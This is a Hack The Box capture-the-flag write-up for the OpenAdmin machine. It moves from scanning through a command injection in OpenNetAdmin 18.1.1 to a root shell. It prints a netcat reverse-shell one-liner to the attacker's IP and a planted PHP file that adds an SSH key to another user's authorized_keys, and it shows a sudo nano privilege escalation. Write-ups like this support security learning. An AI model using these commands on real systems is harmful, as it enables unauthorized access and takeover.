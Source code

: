 OpenAdmin
===
![OpenAdmin](https://lassa97.github.io/imgs/OpenAdmin.png)

---
### Nmap
We start with an `nmap` scan:

> lassault@kakia:~$ nmap -sV -sC -oA OpenAdmin 10.10.10.171

```
# Nmap 7.80 scan initiated Wed Jan  8 18:44:48 2020 as: nmap -sV -sC -oA OpenAdmin 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  8 18:46:21 2020 -- 1 IP address (1 host up) scanned in 92.99 seconds
```

We find `ssh` on port 22 and `http` on port 80.

---

### Web Enumeration
We use `gobuster` to find some useful directories that we can exploit:

> lassault@kakia:~$ gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o OpenAdmin.dir

```
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/08 17:53:21 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
===============================================================
2020/01/08 18:51:04 Finished
===============================================================
```
Going to http://10.10.10.171/music/ shows a login button. We click it and we are redirected to [this](http://10.10.10.171/ona/). It is the OpenNetAdmin Tool running the 18.1.1 version.

---

### Command Injection
Doing some research, we find there is a Remote Code Execution vulnerability (OpenNetAdmin 18.1.1 - Command Injection Exploit).

We take the [source code](https://packetstormsecurity.com/files/155406/opennetadmin1811-exec.txt) and we create a reverse shell. First, we open a local port and then we write this command as input of the exploit.

> lassault@kakia:~$ nc -lvnp 51111
>
> lassault@kakia:~$ ./exploit.sh http://10.10.10.171/ona/
>
> lassault@kakia:~$ mkfifo /tmp/flipper; nc 10.10.15.182 51111 < /tmp/flipper | /bin/sh > /tmp/flipper; rm /tmp/flipper;

---

### Jimmy

After some enumeration, we find some creds (__jimmy:n1nj4w4rri0R!__) in */opt/ona/www/local/config/database_settings.inc.php*
Also, we find two users (__jimmy__ and __joanna__) and a common group (__internal__).
Now, we connect via `ssh` using the creds of __jimmy__:

> lassault@kakia:~$ ssh jimmy@10.10.10.171

---

### Joanna

Once we are logged, we find three local ports open.

> jimmy@openadmin:~$ netstat -nputa

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
```

We have the port 53 (*DNS*), the port 3306 (*MySQL*) and the port 52846. Then, we find under */var/www* directory a folder called __internal__. The user __jimmy__ is the owner and the group __internal__ has all the permissions in that directory. Inside it, we find the source code of the *PHP*s that are served in the port 52846.
1) __index.php__: Has a login form with the SHA512 of another pass of __jimmy__.
2) __main.php__: Displays the private key of __joanna__ using *shell_exec()*.
3) __logout.php__: A simple logout.

We decide to create a `ssh` tunnel to display it in our browser:

> lassault@kakia:~$ ssh jimmy@10.10.10.171 -L 55555:127.0.0.1:52846

And going to http://127.0.0.1:55555, we see the login form. Because we have all the permissions in the __internal__ directory, we've decide to create our own PHP that adds a public key to the *authorized_keys* of __joanna__ using the *shell_exec()* function to execute commands.

__flipper.php__

```php
<?php
    shell_exec("cat /var/www/internal/fake.txt >> /home/joanna/.ssh/authorized_keys");
    $keys = shell_exec("cat /home/joanna/.ssh/authorized_keys");
    echo "<pre>" . $keys . "</pre>";
 ?>
```

Then, we generate a new `ssh` key using `ssh-keygen` and we paste the public key inside *fake.txt*. We change the group own of *flipper.php* to __internal__ using `chgrp`. After that, we go to http://127.0.0.1:55555/flipper.php and we can see that we have added our public key to the *authorized_keys* of __joanna__.

Finally, we login with `ssh` using our private key and we have the user flag.

> lassault@kakia:~$ ssh joanna@10.10.10.171 -i OpenAdmin.key
>
> joanna@openadmin:~$ cat /home/joanna/user.txt

`HTB{c9b2cf07d40807e62af62660f0c81b5f}`

---

### Root
We are going to use [GTFOBins](https://gtfobins.github.io/) to gain privilegies. We find that __joanna__ can edit the file */opt/priv* owned by __root__ without password.

> joanna@openadmin:~$ sudo -l
>
`sudo /bin/nano /opt/priv`

Following the instructions for `nano`, we have our root shell and we can own the root flag.

> root@openadmin:~# cat /root/root.txt

`HTB{2f907ed450b361b2c2bf4e8795d5b561}`
